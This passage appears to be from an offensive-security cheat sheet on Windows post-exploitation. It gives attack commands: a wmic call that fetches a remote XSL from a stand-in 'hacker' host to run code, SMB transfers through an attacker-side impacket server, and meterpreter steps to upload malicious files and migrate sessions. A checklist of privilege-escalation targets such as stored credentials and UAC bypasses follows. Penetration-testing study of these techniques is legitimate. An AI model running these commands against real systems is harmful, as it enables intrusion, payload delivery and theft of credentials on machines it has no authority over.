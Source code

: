 ```

**Wmic**

```
wmic os get /format:"https://hacker/hacker.xsl"
```

**SMB**

```
smbclient //server/share -c 'cd c:/remote/path ; put local-file remote-file'
```

Starting the server in attacker linux using impacket
```
smbserver.py shareName sharePath
```
In the windows target machine
~~~
C:\>net use /d \\[host]\[share name]
~~~

**If you're in meterpreter shell, you can do many things very easily, it has many commands and run modules**

To see commands in meterpreter 

``
help
``

To see run commands

``
run <Tab> <Tab>
``
To upload payload or malicious files in windows system by meterpreter

``
upload <filename>
``


**There are many other utilities also that we can use to transfer files in windows system**

After Exploitation and PostEnumeration, the question arise what we found

* Had we found any kernel exploit for target system?
* Had we found Unquoted Service Paths?
* Had we found credentials or hashes?
* Had we found any service running on local host?
* Had we found public exploit for any service?
* Had we found Insecure Registry permissions?
* Had we found sessions VNC/RDP/Citrix, so that we can try UAC bypasses? 
* what permissions we have?
* ETC.


**Migrate meterpreter shell to another process**

To migrate your current meterpreter session to another process to establish a stable session

```
run post/windows/manage/migrate
```
```